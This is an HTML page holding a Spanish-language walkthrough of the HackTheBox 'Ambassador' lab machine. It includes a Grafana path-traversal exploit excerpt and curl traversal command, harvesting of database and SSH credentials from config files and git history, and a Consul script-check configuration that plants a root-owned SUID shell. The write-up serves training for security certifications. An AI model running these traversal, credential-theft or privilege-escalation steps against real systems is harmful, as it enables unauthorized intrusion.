



<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Post - Ambassador</title>
    <link href="https://fonts.googleapis.com/css2?family=Merriweather:wght@400;700&family=Open+Sans:wght@400;600&display=swap" rel="stylesheet">
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/styles/github.min.css">
    <style>
        body {
            font-family: 'Open Sans', sans-serif;
            max-width: 800px;
            margin: 0 auto;
            padding: 20px;
            color: #fff;
            background-color: #000;
            line-height: 1.6;
        }
        
        h1, h2, h3, h4, h5, h6 {
            font-family: 'Merriweather', serif;
            margin-bottom: 20px;
        }

        img {
            max-width: 100%;
            height: auto;
            margin: 20px 0;
            border-radius: 5px;
            box-shadow: 0 4px 6px rgba(255, 255, 255, 0.1);
        }

        pre {
            background-color: #222;
            padding: 10px;
            overflow-x: auto;
            border-radius: 5px;
        }

        code {
            font-family: 'Courier New', Courier, monospace;
            background-color: #222;
            padding: 2px 4px;
            border-radius: 3px;
        }

        blockquote {
            border-left: 4px solid #ccc;
            margin-left: 0;
            padding-left: 20px;
            font-style: italic;
            color: #ccc;
        }

        a {
            color: #fff;
            text-decoration: underline;
        }
    </style>
</head>
<body>
    <div id="post">
        <!-- Aquí se insertará el contenido del post en formato Markdown -->
    </div>

    <script src="https://cdnjs.cloudflare.com/ajax/libs/showdown/1.9.1/showdown.min.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/highlight.min.js"></script>
    <script>
        // Obtener el contenido del post en formato Markdown (puedes reemplazar esto con tu propia lógica)
        const markdownContent = `
# Máquina "Ambassador" de HackTheBox

Caracteristicas:

- Linux 
- Media
- Web enumeration
- Grafana V8.2.0 Explotation [CVE-2021-43798](Unauthorized Arbitrary File Read Vulnerability)
- Enumerating a sqlite3 file [Extracting mysql Login Credential] 
- System Github Project Enumeration
- Hashicorp Consul Exploitation (Command Execution via API) [ Privilege Escalation ]

Util en:

- eWPT
- OSCP

        IP 10.10.11.183

- nmap -p- --min-rate 10000 10.10.11.183

<pre>
<code>
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp
3306/tcp open  mysql
</code>
</pre>

- nmap -p 22,80,3000,3306 -sCV 10.10.11.183

<pre>
<code>
    PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Hugo 0.94.2
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Ambassador Development Server
3000/tcp open  ppp?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2Fnice%2520ports%252C%2FTri%256Eity.txt%252ebak; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Thu, 15 Sep 2022 18:02:33 GMT
|     Content-Length: 29
|     href="/login">Found</a>.
|   GenericLines, Help, Kerberos, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Thu, 15 Sep 2022 18:02:01 GMT
|     Content-Length: 29
|     href="/login">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Thu, 15 Sep 2022 18:02:06 GMT
|_    Content-Length: 0
3306/tcp open  nagios-nsca Nagios NSCA
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.30-0ubuntu0.20.04.2
|   Thread ID: 9
|   Capabilities flags: 65535
|   Some Capabilities: Support41Auth, Speaks41ProtocolOld, SupportsTransactions, IgnoreSigpipes, InteractiveClient, SwitchToSSLAfterHandshake, IgnoreSpaceBeforeParenthesis, SupportsLoadDataLocal, LongColumnFlag, SupportsCompression, ConnectWithDatabase, Speaks41ProtocolNew, FoundRows, LongPassword, DontAllowDatabaseTableColumn, ODBCClient, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
</code>
</pre>

Codename Ubuntu 20.04 focal.

algunos puertos y servicios interesantes que son 22 SSH, 80 HTTP, 3000 Unknown, 3306 MySQL

vamos al puerto 80 y vemos un servicio hugo
- <meta name="generator" content="Hugo 0.94.2" />
Hugo es un generador de sitios estáticos y  probablemente no haya muchas cosas interactivas en esta página.



y en el puerto 3000 grafana



buscamos algun exploit en google y vimos cosas relacionadas a directory traversal vulnerability 



https://www.exploit-db.com/exploits/50581 

asi que lo ejecutamos

- python3 exploit.py -H http://10.10.11.183:3000 

con esto podemos leer archivos del sistema.
echemosle un vistaso al exploit

<pre>
<code>
    def main():
    parser = argparse.ArgumentParser(description="Grafana V8.0.0-beta1 - 8.3.0 - Directory Traversal and Arbitrary File Read")
    parser.add_argument('-H',dest='host',required=True, help="Target host")
    args = parser.parse_args()

    try:
        exploit(args)
    except KeyboardInterrupt:
        return
        def exploit(args):
    s = requests.Session()
    headers = { 'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.' }

    while True:
        file_to_read = input('Read file > ')

        try:
            url = args.host + '/public/plugins/' + choice(plugin_list) + '/../../../../../../../../../../../../..' + file_to_read
            req = requests.Request(method='GET', url=url, headers=headers)
            prep = req.prepare()
            prep.url = url
            r = s.send(prep, verify=False, timeout=3)

            if 'Plugin file not found' in r.text:
                print('[-] File not found\n')
            else:
                if r.status_code == 200:
                    print(r.text)
                else:
                    print('[-] Something went wrong.')
                    return
        except requests.exceptions.ConnectTimeout:
            print('[-] Request timed out. Please check your host settings.\n')
            return
        except Exception:
            pass
</code>
</pre>

mainsimplemente toma un host y luego se lo pasa a exploit exploit cae en un while True, leer un archivo y luego lo busca con una elección aleatoria de una larga lista de complementos: 
no hay nada en /home/developer lo que sugiere que puede ser ejecutado por otro usuario no podemos sacar mucho de hugo en grafana podemos ver /etc/grafana/grafana.ini
dentre de este vemos la seccion DB que era extraña, ya que especifica el tipo de sqlite, pero luego proporciona un puerto y un nombre de usuario: 

<pre>
<code>
#################################### Database ####################################
[database]
# You can configure the database connection by specifying type, host, name, user and password
# as separate properties or as on string using the url properties.

# Either "mysql", "postgres" or "sqlite3", it's your choice
;type = sqlite3
;host = 127.0.0.1:3306
;name = grafana
;user = root
# If the password contains # or ; you have to wrap it with triple quotes. Ex """#password;"""
;password = 
</code>
</pre>

es la configuracion predeterminada. En la seccion security vemos muchas cosas com,entadas pero hay un admin_password que no lo esta 

<pre>
<code>
#################################### Security ####################################
[security]
# disable creation of admin user on first start of grafana
;disable_initial_admin_creation = false             

# default admin user, created on startup
;admin_user = admin             

# default admin password, can be changed before first start of grafana,  or in profile settings
admin_password = messageInABottle685427
                                                    
# used for signing                               
;secret_key = SW2YcwTIb9zpOOhoPsMm
</code>
</pre>

- messageInABottle685427

Con esa contraseña puedo iniciar sesión en Grafana como admin: 


revisamos todo hasta que llegamos a config y vemos algo relacionado a base de datos. mysql.yaml no se puede modificar en la interfaz de usuario. 
Los documentos de Grafana muestran que estas configuraciones viven en /etc/grafana/provisioning/datasources. Asi que con el exploit anterior buscaremos el archivo

- curl --path-as-is http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../../../../../../etc/grafana/provisioning/datasources/mysql.yaml

salida

<pre>
<code>
    datasources:
 - name: mysql.yaml 
   type: mysql
   host: localhost
   database: grafana
   user: grafana
   password: dontStandSoCloseToMe63221!
   editable: false
</code>
</pre>

con esats credenciales intentaremos conectarnos a mysql

- mysql -h 10.10.11.183 -u grafana -p'dontStandSoCloseToMe63221!'

y estamos dentro

MySQL ejecuta dos bases de datos no estándar, grafana y whackywidget: 

<pre>
<code>
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
6 rows in set (0.10 sec)

</code>
</pre>

widget solo tiene una tabla

<pre>
<code>
mysql> use whackywidget;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.08 sec)
</code>
</pre>

<pre>
<code>
mysql> select * from users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
1 row in set (0.09 sec)
</code>
</pre>

la contraseña parece base64 asi que lanzamos.

- echo "YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==" | base64 -d

anEnglishManInNewYork027468

intentamos conectarnos con esta clave por ssh 

sshpass -p 'anEnglishManInNewYork027468' ssh developer@10.10.11.183

Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-126-generic x86_64)
...[snip]...

y encontramos la bandera de usuario

El /opt tiene dos carpetas importantes para pasar al siguiente paso, que son consul y my-app
consul es una solución distribuida, de alta disponibilidad y compatible con el centro de datos para conectar y configurar aplicaciones en una infraestructura 
dinámica y distribuida. Dentro de my-app tiene las carpetas referentes al wackywidget y podemos ver que hay recursos reacionados a github tammbien un env
que es un entorno virtual de python. Dentro de whackywidgetla vemos un script en python relacionado a django.
Lo proximo que vemos es put-config-in-consul.sh que dentro tiene.

- consul kv put whackywidget/db/mysql_pw $MYSQL_PASSWORD

podemos ver que esta ejecutando la aplicacion consul para establecer un par de clave/valor con consul. dice algo sobre exportar mysql_password y la variable consul_http_token  
variables de entorno.

entonces MYSQL_PASSWORD es la que se almacena en la tienda KV y en la documentacion podemos ver que CONSUL_HTTP_TOKEN es el valor que se utiliza para validar el acceso.
veremos el registro de git en la aplicacion

- developer@ambassador:/opt/my-app/whackywidget$ git log --oneline

<pre>
<code>
33a53ef (HEAD -> main) tidy config script
c982db8 config script
8dce657 created project with django CLI
4b8597b .gitignore
</code>
</pre>

miramos la confirmacion anterior 

- developer@ambassador:/opt/my-app/whackywidget$ git show c982db8:./put-config-in-consul.sh 

# We use Consul for application config in production, this script will help set the correct values for the app
# Export MYSQL_PASSWORD before running

consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD

Para probar el acceso, intentaré el mismo comando anterior pero con un token: 

- developer@ambassador:/opt/my-app/whackywidget$ CONSUL_HTTP_TOKEN='bb03b43b-1d81-d62b-24b5-39540ee469b5' consul kv get whackywidget/db/mysql_pw 

podemos notar que consul tiene un subcomando exec. pero  cuando intento ejecutarlo, devuelve 0 nodos completados o reconocidos: 

- CONSUL_HTTP_TOKEN='bb03b43b-1d81-d62b-24b5-39540ee469b5' consul exec id

0 / 0 node(s) completed / acknowledged

revisaremos la configuracion de consul que la encontraré een /etc/consul.d: 

<pre>
<code>
developer@ambassador:/etc/consul.d$ ls -l
total 16
drwx-wx--- 2 root   developer 4096 Sep 14 11:00 config.d
-rw-r--r-- 1 consul consul       0 Feb 28  2022 consul.env
-rw-r--r-- 1 consul consul    5303 Mar 14  2022 consul.hcl
-rw-r--r-- 1 consul consul     160 Mar 15  2022 README
</code>
</pre>

Mirando la línea de comando para ejecutar consul. El proceso muestra que se está ejecutando con ambos. -config-dir y -config-file: 

- developer@ambassador:/etc/consul.d$ ps auxww | grep consul

root        1013  0.5  3.3 781092 66536 ?        Ssl  17:14   0:00 /usr/bin/consul agent -config-dir=/etc/consul.d/config.d -config-file=/etc/consul.d/consul.hcl

<pre>
<code>
developer@ambassador:/etc/consul.d$ cat consul.hcl | grep -v "^#" | grep.

data_dir = "/opt/consul"
server = true
bind_addr = "127.0.0.1"
bootstrap_expect=1
acl {
  enabled        = true
  default_policy = "deny"
  down_policy    = "extend-cache"
}
enable_script_checks = true
</code>
</pre>

este archivo tiene permiso para escribir en el desde developer 
podemos ver que en enable_script_checks y en https://www.hashicorp.com/blog/protecting-consul-from-rce-risk-in-specific-configurations podemos leer sobre esto y como explotar
consul. https://www.consul.io/docs/discovery/checks aqui podemos ver sobre crear checkers con ejemplos.

en el "service definition file" ira al “agent’s configuration directory”, que es /etc/consul.d/config.d. quedaria

<pre>
<code>
check = {
  id = "test"
  name = "test owned this"
  args = ["/usr/bin/touch", "/tmp/test-test"]
  interval = "10s"
  timeout = "1s"
}
</code>
</pre>

Esta verificación de script ahora tocará /tmp/test-test como raíz. vim lo usara para escribir eso como config.d/test.hcl. y recargamos consul para actualizar la configuración: 

- developer@ambassador:/etc/consul.d$ CONSUL_HTTP_TOKEN='bb03b43b-1d81-d62b-24b5-39540ee469b5' consul reload

Configuration reload triggered
Para obtener un shell, actualizaré el archivo de script de verificación para incluir tres comprobaciones: 

<pre>
<code>
checks = [
  {
    id = "test-1"
    name = "copy bash"
    args = ["cp", "/bin/bash", "/tmp/test"]
    interval = "60s"
  },
  {
    id = "test-2"
    name = "make it root"
    args = ["/usr/bin/chown", "root:root", "/tmp/test"]
    interval = "60s"
  },
  {
    id = "test-3"
    name = "suid bash"
    args = ["/usr/bin/chmod", "4777", "/tmp/test"]
    interval = "60s"
  }
]
</code>
</pre>
Esto copiará basha /tmp/test, asegúrese de que sea propiedad de root y luego conviértalo en SetUID. Después de recargar el cónsul, el script se ejecuta y funciona: 
lanzamos 

- developer@ambassador:~$ /tmp/test -p

y somos root.

Algunos de los writeups en esta página, pueden tener contenido de otras páginas o tener muy pocas imágenes, esto 
debido a que en algunas de las máquinas que realice, no tome los apuntes o no tome capturas de pantalla, así que he decidido buscar varios writeups
y agregar lo que esté mejor explicado en cada uno para plasmarlo aquí, también si encuentra faltas de ortografía 
o cualquier error, Puedes contactarme a mi correo.

lerioxirit@proton.me


        `;
        
        // Convertir Markdown a HTML
        const converter = new showdown.Converter();
        const html = converter.makeHtml(markdownContent);

        // Insertar el HTML generado en el elemento con id "post"
        document.getElementById('post').innerHTML = html;

        // Resaltar la sintaxis del código
        hljs.initHighlightingOnLoad();
    </script>
</body>
</html>